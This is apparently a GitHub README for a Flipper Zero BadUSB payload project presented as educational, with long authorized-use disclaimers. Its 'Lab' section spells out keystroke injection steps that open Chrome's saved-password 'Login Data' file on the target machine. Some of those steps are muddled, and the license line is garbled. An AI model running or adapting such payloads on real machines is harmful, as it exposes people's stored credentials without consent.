 <h1 align="center"><strong>BAD FLIPP3R</strong></h1>

<html>
  <body>
    <div align="center">
      <img src="https://i.imgur.com/rH3qlFW.png" width="369" height="249">
    </div>
  </body>
</html>


<p id="description"><strong>BadFLIPP3R</strong> is an advanced payload designed for use with the Flipper Zero device. This project is intended exclusively for educational purposes and to deepen understanding of advanced USB-based attacks. The primary goal of <strong>BadFLIPP3R</strong> is to provide cybersecurity professionals, researchers, and enthusiasts with a tool to study, practice, and enhance their knowledge of various types of USB-based exploits.</p>

...................................  
<h2>🧐 Features</h2>

Here're some of the project's best features:

*   Educational Focus: All payloads are crafted to serve as learning tools demonstrating different techniques and methods used in USB attacks.
*   Advanced Payloads: Explore complex payloads designed to mimic real-world attack scenarios.
*   Flipper Zero Compatible: Optimized for seamless integration and execution on the Flipper Zero device.
*   Comprehensive Documentation: Detailed guides and explanations accompany each payload aiding in the educational process.

<h2>🛠️ Installation Steps:</h2>

<p>1. Clone the repository:</p>

```
git clone https://github.com/Bulli77/BadFLIPP3R.git
```

<p>2. Transfer the desired payloads to your Flipper Zero device.</p>

<p>3. Follow the usage instructions provided in the documentation to execute the payloads.</p>

<h2>🍰 Contribution Guidelines:</h2>

Contributions are welcome! If you have any payloads improvements or ideas to enhance this project please feel free to open an issue or submit a pull request.

 
  
...................................
<h2>💻 Lab </h2>

Payload: Extracting Chrome Passwords
This payload script showcases a sequence of automated commands to open Google Chrome, navigate to the profile directory, and attempt to read the "Login Data" file where Chrome stores passwords.


1. **Launching Google Chrome:**
   - `GUI r`: Opens the Run dialog.
   - `STRING chrome.exe`: Types `chrome.exe` to run Google Chrome.
   - `DELAY 1000`: Waits 1 second for Chrome to launch.

2. **Navigating to the Chrome Profile Directory:**
   - `GUI r`: Opens the Run dialog again.
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default`: Types the path to Chrome's default profile directory.
   - `ENTER`: Opens the specified directory.
   - `DELAY 1000`: Waits 1 second for the directory to open.

3. **Opening the Directory in Explorer:**
   - `STRING explorer`: Opens the Windows Explorer to view the directory.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for the Explorer window to open.

4. **Navigating to the Login Data File:**
   - `STRING %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Types the full path to the Login Data file.
   - `ENTER`: Navigates to the specified file.
   - `DELAY 1000`: Waits 1 second for the file to be accessed.

5. **Reading the Login Data File:**
   - `STRING notepad %USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data`: Opens the Login Data file in Notepad.
   - `ENTER`: Confirms the command.
   - `DELAY 1000`: Waits 1 second for Notepad to open the file.


...................................
<h2>🛡️ License:</h2>

This project is licensed under the his project is licensed under the MIT License. See the LICENSE file for details.

...................................

<h2>👍Like my work?👨‍💻</h2>

The <strong>BadFLIPP3R</strong> project is intended solely for educational purposes. It is designed to help security professionals and enthusiasts understand identify and mitigate potential security vulnerabilities in a controlled environment. Any use of <strong>BadFLIPP3R</strong> outside of these educational and research purposes is strictly prohibited. Unauthorized use of this tool on any systems or networks without explicit permission from the owner is illegal and unethical. Such actions may result in severe legal consequences. The developers and contributors of <strong>BadFLIPP3R</strong>  do not condone or support any form of unauthorized or malicious use of this tool. Users must only deploy <strong>BadFLIPP3R</strong>  within their own systems or environments where they have explicit authorization to conduct security testing. Performing any tests or executing payloads on third-party systems networks or devices without prior consent is a violation of ethical guidelines and legal standards. By using this project you agree to adhere to these terms and use <strong>BadFLIPP3R</strong>  responsibly and ethically. Failure to comply with these conditions may lead to serious repercussions including but not limited to legal action academic penalties and professional disciplinary measures.
